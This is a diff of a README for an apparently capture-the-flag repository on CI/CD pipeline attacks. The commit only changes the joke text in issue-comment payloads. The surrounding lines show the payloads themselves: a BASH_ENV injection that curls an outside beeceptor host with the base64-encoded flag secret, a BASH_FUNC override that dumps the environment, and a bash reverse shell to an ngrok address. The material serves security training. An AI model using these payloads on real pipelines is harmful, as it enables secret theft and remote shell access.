

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -140,7 +140,7 @@ PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
 
 Body Issue Comment:
 ``` bash
-Not a release :(
+Let me do something with this env :)
 BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
 ```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>
@@ -152,7 +152,7 @@ BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base6
 ### Using BASH_FUNC
 Body Issue Comment:
 ``` bash
-Not a release :(
+Let me do something with this env :)
 BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
 ```
  <p align="right">(<a href="#readme-top">back to top</a>)</p>
@@ -212,6 +212,7 @@ dig <NGROK_DNS>
 ```
 Body Issue Comment:
 ``` bash
+Where is my bash ??
 ; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
 ```
 5. Dump and check those secrets
````
